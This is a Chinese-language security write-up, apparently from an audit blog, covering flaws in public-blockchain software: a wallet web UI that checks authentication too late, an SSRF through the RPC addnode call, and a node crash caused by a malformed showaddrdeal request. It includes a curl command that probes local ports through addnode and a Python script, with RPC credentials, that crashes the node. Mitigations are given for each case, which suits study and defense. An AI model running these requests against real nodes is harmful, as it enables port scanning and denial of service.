 

# 公链自身的应用层漏洞案例浅析 - 先知社区

公链自身的应用层漏洞案例浅析

- - -

## 文章前言

随着区块链技术的快速发展和广泛应用，公链上的应用程序也变得越来越多，然而与传统的应用程序一样，公链自身应用层也面临着各种安全问题和漏洞，公链应用层漏洞是指在公链上开发的应用程序中存在的安全漏洞和弱点，这些漏洞可能会导致恶意攻击者利用系统的弱点进行各种攻击，例如：盗取用户资金、篡改数据、执行恶意合约等，在本文中我们将以几个常见的公链应用层漏洞类型进行介绍并提供简单的示例和说明

## 攻防案例

### WEB UI访问控制

#### 基本介绍

公链前端Web UI(用户界面)是公链应用层中的一个重要组成部分，它提供了用户与公链应用程序进行交互的界面,公链前端Web UI通常以网页形式呈现，用户可以通过网页浏览器访问和操作公链应用

#### 主要功能

公链前端Web UI的功能包括但不限于以下几个方面：

-   用户账户管理：公链前端Web UI允许用户创建、导入和管理他们的账户，用户可以生成公私钥对、设置密码、备份和恢复账户等操作
-   资产查看和转账：公链前端Web UI显示用户的资产余额和交易历史，用户可以查看他们的数字货币余额，执行转账操作，发送和接收数字货币
-   智能合约交互：公链前端Web UI提供与智能合约进行交互的功能，用户可以通过界面调用智能合约的方法、查看合约状态和执行合约交易
-   交易历史和区块浏览：公链前端Web UI显示公链上的交易历史和区块信息，用户可以查看特定交易的详情，浏览最新的区块和区块链的状态
-   用户身份验证和安全性：公链前端Web UI提供用户身份验证和安全性措施，确保用户的账户和交易信息的安全，这可能包括密码加密、双重身份验证等安全功能

#### 审计示例

在对某公链进行安全审计时发现公链提供了web UI交互式界面，遂对web界面的安全性进行了黑盒测试，发现未进行身份认证的用户在点击相关功能模块时会优先跳转到该功能模块，之后才会判断当前用户是否已经通过身份认证，如果没有通过会跳转到登录认证页面，同时部分接口存在访问控制缺陷，攻击者可以通过burpsuite让页面优先停留在功能模块页面之后通过调用相关接口来查看敏感信息或者执行敏感操作，下面以wallet为例做说明：  
对源代码进行跟踪分析发现，在源代码中的app.controllers.js文件中有一个用于监听页面更改的逻辑设计，但是在这里页面的更新却先于判断用户是否通过认证的逻辑，存在设计缺陷，具体代码如下：  
[![](assets/1706771821-0d14ece9a6aabc5d90d0c3c1af13a482.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105225-6eb933c2-be51-1.png)  
wallet.controller.js逻辑设计

[![](assets/1706771821-b8b76745d5a17ab5ba03d2b7c41c1267.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105243-799a447a-be51-1.png)  
之后对WalletCtrl进行了跟踪分析，在WalletController类中发现对于钱包的各种操作（创建地址账户、删除地址账户、导入地址账户、获取钱包信息等）接口在调用之前未对调用者身份进行认证：  
walletControaller处理逻辑：  
[![](assets/1706771821-496ff8b8bb2214f6f605ce702373519d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105301-8481b422-be51-1.png)  
walletService处理逻辑  
[![](assets/1706771821-75515c8badd5a401e029803b5d5337ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105318-8e663396-be51-1.png)

未认证的用户点击“wallet”选项会先进入wallet界面后跳转至认证页面：  
[![](assets/1706771821-fe3403006e597b7f26e96be6c51c97a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104126-e60f44c2-be4f-1.png)

之后可以好看到钱包的地址账户信息

[![](assets/1706771821-70023e5ae8451d3d5d5016fae7a4fc8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104328-2e9adddc-be50-1.png)  
之后点击“删除账号，在新弹出的框汇总点击"确认"

[![](assets/1706771821-12fb1dfa5226ac318a5ce4f9c6059aa8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104401-4235418e-be50-1.png)

之后account#10账号成功删除：  
[![](assets/1706771821-3abac757129842303e06e1717a1ce81c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129104836-e63f31ae-be50-1.png)  
如果攻击者可以物理接触并获取到seed phrase则可以本地web实现转账，无视这里的认证

[![](assets/1706771821-bb904c4c114f3981fd23d01a64a1f817.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105000-18138b94-be51-1.png)

同时可以创建账号：

[![](assets/1706771821-8820ef3a99cd146061e442c42a76db2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105033-2bd32bb2-be51-1.png)  
也可以查看新建的地址账户：

[![](assets/1706771821-08f25b285ba340e93a99b2f09e6b625f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105136-51ab4630-be51-1.png)

### 添加节点处SSRF

#### 风险说明

当公链允许RPC远程调用，且无需认证或认证口令较弱可以通过爆破的方式进行破解的情况下，攻击者可以利用RPC远程“添加节点”的功能进行SSRF攻击，例如通过对特定的IP地址和端口组合结合服务器端响应的时间（端口开放则妙级响应，端口未开放则超时5s响应）探测服务器端私有IP地址的端口开放情况，用于后续攻击测试

#### 漏洞详情

在添加节点RPC接口处未对目标IP地址作限制，攻击者可通过构造特定的IP地址和端口组合并结合服务端响应时间探测服务端私有IP的端口开放情况，用于进一步攻击。  
addnode逻辑设计：

[![](assets/1706771821-c644e406b9581f9b3e2c24bb8e624208.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105531-ddb176fe-be51-1.png)  
请求测试参数

```plain
curl --user rubyrpc:BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC --data-binary '{"jsonrpc": "2.0", "id":"rpcaddnode", "method": "addnode", "configs": ["127.0.0.1:6379", "onetry"] }' -H 'content-type: text/plain;' http://192.168.11.192:5112
{"result":null,"error":null,"id":"rpcaddnode"}
```

[![](assets/1706771821-59e129e7a4cdda94f70a0d0556486020.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105552-e9e37666-be51-1.png)  
节点端开启的端口监听成功捕获到请求源：

[![](assets/1706771821-4c36e6cc4f5e17b9ec961d167a0e8e12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105603-f0e12008-be51-1.png)

#### 防御措施

校验目标节点IP地址，防止添加本地循环地址被攻击者用于恶意探测本地开放端口服务，同时远程RPC调用时进行身份认证

### RPC参数畸形请求导致DDOS

#### 基本介绍

公链RPC(远程过程调用)接口是公链提供的一种方式，允许外部应用程序通过网络与公链进行通信和交互,RPC接口提供了一组命令和方法，允许开发者查询和操作公链的状态、执行交易、访问智能合约等功能

#### 漏洞简介

之前在做一个公链审计的时候，发现一个有趣的现象，当用户调用Showaddrdeal来查看address，txid等详细交易信息时，如果传入的address为根节点或者传入的txid不存在、为空、非法都会导致根节点直接Crash，很是有意思，后期发现是因为后端未做合法性校验导致的  
showaddrdeal逻辑：

[![](assets/1706771821-ed6527034b02bc0de6af57b6726d1fce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105913-61f3749e-be52-1.png)  
测试脚本：

```plain
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests

def exp():
    URL = "http://192.168.11.192:5112"
    data = {
        "jsonrpc": "2.0",
        "method": "showaddrdeal",
        "configs":["18qNoDvvfNgCFa29rNVvvM3ZKi1MpsgSZZQUiJ",""],
        "id":"rpcshowaddrdeal"
   }
   s = requests.session()
   s.auth = ('xxxrpc','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(1):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```

运行脚本后：

[![](assets/1706771821-300af5dc8743ab72c4cc43ed36010867.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129105956-7b603c82-be52-1.png)

之后远程RPC无法正常调用，被拒绝连接：

[![](assets/1706771821-8e41be7515351179a51d63a4779abf46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110013-8595f2b4-be52-1.png)

#### 修复方法

下面的修复方法是经过后期与客户商议之后一起总结的，后期发现客户的修复没有问题，再次测试未出现相关安全问题：  
showaddrdeal新增验证参数为空的验证：

[![](assets/1706771821-1f1f6f0ddcd74252b4283e78320a83cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129110045-99018354-be52-1.png)

## 文末小结

本篇文章简单的介绍了一下公链应用层方面的几个安全漏洞示例，主要包括了WEB UI的安全、RPC接口的安全等，从公链源代码进行了简易的刨析，当然公链中还有很多的应用层面的漏洞值得大家去思考和挖掘，例如：RCP的其他安全问题(DOS、鉴权错误、未授权等)、Geth的安全问题、安全策略问题等等
